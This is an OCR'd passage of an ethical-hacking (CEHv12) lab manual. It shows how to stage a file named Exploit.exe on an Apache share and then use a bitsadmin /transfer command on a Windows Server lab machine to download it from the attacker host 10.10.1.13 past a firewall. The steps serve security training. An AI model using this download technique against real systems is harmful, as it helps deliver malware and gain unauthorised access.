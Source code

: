 ```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
Copy the malicious file to the shared location by typing cp /home/attacker/Exploit.exe /var/www/html/share and pressing
Enter
```
13. Now, start the Apache service. To do this, type **service apache2 start** and press **Enter**.

### 


14. Click **CEHv12 Windows Server 2019** to switch to **Windows Server 2019** machine.
15. In the **Type here to search** field of the **Desktop** , type **powershell** and click **Windows PowerShell** to launch a PowerShell.

### 


16. In the PowerShell window, type **bitsadmin /transfer Exploit.exe [http://10.10.1.13/share/Exploit.exe](http://10.10.1.13/share/Exploit.exe) c:\Exploit.exe** and press
    **Enter**.
17. **BITSAdmin** transfers the file, as shown in the screenshot.

### 


18. Open **File Explorer** and Navigate to **C:** drive, you can see that the malicious file is successfully transferred.
19. After transferring the malicious file the attacker can use this malicious file for gaining access, escalating privileges and to perform

### various malicious other activities. 


20. This concludes the demonstration of bypassing firewall through Windows BITSAdmin.
21. Close all open windows and document all acquired information.

### 


